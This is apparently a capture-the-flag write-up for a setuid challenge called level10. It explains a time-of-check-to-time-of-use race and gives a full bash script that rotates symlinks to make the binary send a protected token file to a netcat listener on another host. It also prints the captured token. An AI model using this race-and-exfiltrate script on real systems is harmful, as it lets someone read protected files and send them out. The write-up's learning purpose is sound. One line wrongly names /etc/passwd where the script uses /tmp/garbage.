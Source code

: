 ## level10

This is the most interesting challenge. Once again we have an unreadable token file and a `level10` executable with the setuid bit set.

```
$ ./level10
./level10 file host
    sends file to host if you have access to it
```

The disassembled code is much bigger, but it indeed looks like a file sending program. It first checks with `access` if we have the rights to the file, then connects to port `6969` of the given host and sends the file.

The first step was to launch a server on port `6969` on the host machine: `nc -lk 6969`

Now comes the TOCTOU attack (time-of-check to time-of-use). Since the program doesn't run infinitely fast, there is a gap between the `access` check and the sending of the file. We can exploit it by rotating symbolic links. One link must be a file readable by us, another must be `token`.

First create a dummy file where you have the access rights: `echo garbage > /tmp/garbage`

```bash
#!/bin/bash

cleanup() {
    echo "Cleaning up..."
    kill $(jobs -p)
    exit 0
}

trap cleanup SIGINT SIGTERM

while true; do
    ln -sf /tmp/garbage /tmp/exploit_link
    ln -sf /home/user/level10/token /tmp/exploit_link
done &

while true; do
    /home/user/level10/level10 /tmp/exploit_link 10.x.x.x
done &

wait
```

Running this script will sometimes fail the `access` check and sometimes fail the `read` of the file. But if the timing is right, it will `access` `/etc/passwd` and `read+send` `/home/user/level10/token` to the host machine: `woupa2yuojeeaaed06riuj63c`.
